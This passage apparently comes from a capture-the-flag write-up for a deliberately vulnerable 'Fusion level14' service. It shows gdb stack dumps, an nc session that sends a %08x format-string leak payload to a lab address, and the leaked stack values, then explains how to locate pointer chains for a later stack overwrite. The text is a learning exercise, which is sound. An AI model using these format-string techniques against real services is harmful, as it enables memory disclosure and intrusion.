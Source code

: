```
1: x/i $pc
=> 0xb753d21e <__snprintf+46>:	call   0xb7555cf0 <_IO_vsnprintf>
(gdb) x/80wx $esp
0xbfdd4ef8:	0xb7c41268	0x00000800	0xb7c4016c	0xbfdd4f1c
0xbfdd4f08:	0xb7c40158	0xb77d1208	0xb7c41268	0x00000800
0xbfdd4f18:	0xb7c4016c	0xb7c40a10	0xb77d0700	0x00000000
0xbfdd4f28:	0xbfdd5140	0xb7c40a10	0xb77d0700	0x00000000
0xbfdd4f38:	0xb75622e3	0xb7c40a10	0xb77d10d0	0x00000000
0xbfdd4f48:	0xb7c40158	0xb77d10d0	0x00000000	0xb7c40158
0xbfdd4f58:	0xbfdd4f4c	0x00000000	0x00000000	0xb768d000
0xbfdd4f68:	0xb76a13b8	0x000e3120	0xbfdd4f30	0xb7c41228
0xbfdd4f78:	0xb766aff4	0xb766c400	0xb7c40030	0x00000000
0xbfdd4f88:	0xb756594d	0xb75658e0	0xb7c40990	0xb776fff4
0xbfdd4f98:	0xb77d0070	0xb773a80f	0xb7c40990	0xb74c8190
0xbfdd4fa8:	0xb7562d8e	0xb777c058	0xb77d0070	0xb7c40030
0xbfdd4fb8:	0x00000000	0xb77d012c	0xb7c40158	0xbfdd4ff4
0xbfdd4fc8:	0x00000154	0xb7c40030	0xb77d10d0	0x00000000
0xbfdd4fd8:	0xb7c40158	0x00000000	0xb777c058	0x00000154
0xbfdd4fe8:	0xb77d10d0	0x00000000	0xb7c40158	0x00000000
0xbfdd4ff8:	0xb777c058	0x00000154	0xbfdd4fd0	0x00000000
0xbfdd5008:	0x00000000	0x00000001	0xb7c40990	0xb77d0070
0xbfdd5018:	0xb7c40990	0xb77ca8a9	0xb7c40030	0xb7c40990
0xbfdd5028:	0x00000000	0xb777c058	0x00000000	0x00000004
```

Response from the server:
```
root@kali:~/fusion/level14# nc 172.16.193.195 20014
%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
b7c40a10.b77d0700.00000000.bfdd5140.b7c40a10.b77d0700.00000000.b75622e3.b7c40a10.b77d10d0.00000000.b7c40158.b77d10d0.00000000.b7c40158.bfdd4f4c.00000000.00000000.b768d000.b76a13b8.000e3120.bfdd4f30.b7c41228.b766aff4.b766c400.b7c40030.00000000.b756594d.b75658e0.b7c40990.b776fff4.b77d0070.b773a80f.b7c40990.b74c8190.b7562d8e.b777c058.b77d0070.b7c40030.00000000.b77d012c.b7c40158.bfdd4ff4.00000154.b7c40030.b77d10d0.00000000.b7c40158.00000000.b777c058.00000154.b77d10d0.00000000.b7c40158.00000000.b777c058.00000154.bfdd4fd0.00000000.00000000.00000001.b7c40990.b77d0070.b7c40990.b77ca8a9.b7c40030.b7c40990.00000000
```

*snprintf()* leaks from **$esp+36**, so we can address any other 4bytes that comes after. **%1$x** points to **$esp+36**, **$2%x** points to **$esp+40** an so on... We need to find a pointer on stack which points to the stack, you can even find longer chains, but we need only one pointer at the moment (possibly two to have a shorter exploit). Before you start to look for one, it is best to look farther on, too close values on the stack mean we are picking (and later altering) values on stack that are related to the called function or to the caller or to the caller of the caller and so on. Farther is better, but we have to make sure we are still in the stack frame. We are going to modify some values on stack, so if we can keep those values in an area that never changes while we are minding our business we don't have to expect a crash, which is a good thing. The service works in a loop, so outer functions won't be accessed while we are crafting our payload, we need to aim for that stack partition.  
**%256$x** will be just good for us. It points to **%263$x** which points to somewhere on the stack. Unfortunately the latter points to an address on stack which can't be divided with 4, so it is not aligned. We need to modify that address to point to something proper. We'll do that later.

